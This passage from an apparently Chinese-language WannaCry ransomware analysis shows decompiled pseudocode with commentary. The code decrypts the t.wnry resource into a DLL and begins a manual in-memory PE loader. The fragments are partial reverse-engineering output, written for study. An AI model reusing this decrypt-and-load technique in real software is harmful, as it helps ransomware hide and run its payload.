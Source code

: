```c
hGlobal_3 = (int)GlobalAlloc(0, buffer);  

if ( hGlobal_3 )  

{  

if ( ReadFile_Addr(hFile, pBuffer[306], FileSize.LowPart, &lpNumberOfBytesRead, 0)// 读取0x10000个字节  

&& lpNumberOfBytesRead  

&& (buffer < 0 || SHIDWORD(buffer) <= 0 && lpNumberOfBytesRead >= (unsigned int)buffer) )  

{  

pFileAddr = hGlobal_3;  

DecryptPEFile((int)(pBuffer + 21), pBuffer[306], hGlobal_3, lpNumberOfBytesRead, 1);// 将读取的内容解密成一个PE文件  

*(_DWORD *)DecryptFileSize = buffer;  

}  }  }  }  }  }  }  }  }  }  }  }  }  

local_unwind2((int)&ms_exc.registration, -1);  

return pFileAddr;                             // 返回解析出的文件首地址  

} 
```

在函数执行过程中，我们一直对t.wnry文件执行读取操作，每读取一个片段到内存边利用已有的RSA私钥进行解密，返回解密后的文件内容。

{% asset_img image17.png 17 %}

图十五：OD查看函数返回值

查看解密后的文件，是一个PE文件，通过对文件源码和结构的分析，判断它是一个dll文件，且是先前资源包中的t_wnry.dll。

### 5.3.5 WriteAllocMem 拷贝PE文件到内存

```c
int *__cdecl sub_4021E9(void *pFileBase, int FileSize, int VirtualAlloc_Addr, int VirtualFree_Addr, int LoadLibraryA_Addr, int GetProcAddress_Addr, int FreeLibrary_Addr, int a8)  

{  

v28 = 0;  

if ( !CmpFileSize(FileSize, 0x40u) )          // 比较文件大小是否大于等于0x40  

return 0;  

if ( *(_WORD *)pFileBase != 0x5A4D )          // 判断是否是PE文件  

goto LABEL_3;  

if ( !CmpFileSize(FileSize, *((_DWORD *)pFileBase + 0xF) + 0xF8) )// 比较文件大小是否大于等于0x1F0  

return 0;  

NtHeader = (char *)pFileBase + *((_DWORD *)pFileBase + 0xF);  

if ( *(_DWORD *)NtHeader != 0x4550 )          // 判断是否是PE文件  

goto LABEL_3;  
```